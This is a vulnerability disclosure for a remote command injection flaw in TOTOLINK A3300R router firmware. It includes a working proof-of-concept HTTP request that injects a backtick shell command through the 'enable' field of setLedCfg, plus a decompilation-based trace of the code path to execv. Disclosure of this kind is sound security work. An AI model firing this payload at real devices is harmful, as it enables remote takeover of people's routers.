









# TOTOLINK A3300R V17.0.0cu.557_B20221024 Command Injection


## Product Information

Product: TOTOLINK A3300R

Firmware Version: V17.0.0cu.557_B20221024 

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html 





## Attack Type

remote


## Decription

In https://github.com/AuroraHaaash/vul_report/tree/main/TOTOLINK%20A3300R, it presents a way to directly visit the /wizard.html. Besides being access to the passwords and changing them,  the attacker is also able to send several requests that related to /wizard.html, including the `setLedCfg`.

When dealing  with `setLedCfg`  request, there is no verification for the `enable` parameter. And the parameter is controllable, which will eventually lead to command injection.


### POC

``` http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.239.211
Content-Length: 37
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.239.211
Referer: http://192.168.239.211/wizard.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"enable":"`ls>/web/test.txt`","topicurl":"setLedCfg"}
```

Inject the command like ``  `ls>/web/test.txt` ``



Send certain packet or visit directly, check the result

``` http
GET /test.txt HTTP/1.1
Host: 192.168.239.211
sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```




### Analse 

`sub_41067c` will handle the `setLedCfg` request. 

Firstly, `sub_40A4FC` get `enable`  parameter from the request body as a json object, but it return a char pointer.

Although the `atoi` is called, `v3` is finally passed to the `Uci_Set_Str`. Notice that `v3` is a char pointer.





`Uci_Set_Str` can be found in `/usr/lib/libcscommon.so`



Instructions such as `sw`  are used to prepare the values for passing to `snprintf` as parameters, 

`$t9` saves the result of `snprintf` and then will be passed to `CsteSystem`



This can be much clearer with the help of Ghidra.

The last  parameter of the `snprintf`, `param_4`,  refers to the controllable `v3` in `sub_40A4FC`.



`CsteSystem` will wrap the command(`$t9`) and then passes it to `execv` to execute the command.

